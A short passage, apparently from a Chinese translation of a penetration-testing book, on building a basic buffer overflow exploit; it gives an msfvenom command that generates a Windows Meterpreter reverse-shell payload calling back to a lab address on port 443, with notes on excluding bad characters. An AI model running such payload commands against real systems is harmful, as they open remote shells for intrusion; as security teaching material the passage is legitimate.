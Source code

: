 ![编写基本的缓冲区溢出利用](img/B04315_08_34.jpg)

然后，我们生成我们的新 shell 代码`windows/meterpreter/reverse_nonx_tcp`，并用它替换我们的计算器代码。我们选择这种有效负载类型，因为它是一个非常小的 Meterpreter，这意味着由于我们知道我们的内存占用可能受限，我们有更好的机会成功利用这个漏洞。

```py
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -f c -b '\x00\xff\x01\x09\x0a\x0d'
```

### 提示

这些例子中列出了额外的坏字符。出于习惯，我通常在生成有效负载时将这些字符保留下来。请记住，您拥有的坏字符越多，编码器就必须添加执行功能等效操作的操作越多。这意味着随着您的编码越多，您的有效负载通常会变得更大。

命令的输出如下，只有 204 字节的大小：

![编写基本的缓冲区溢出利用](img/B04315_08_35.jpg)
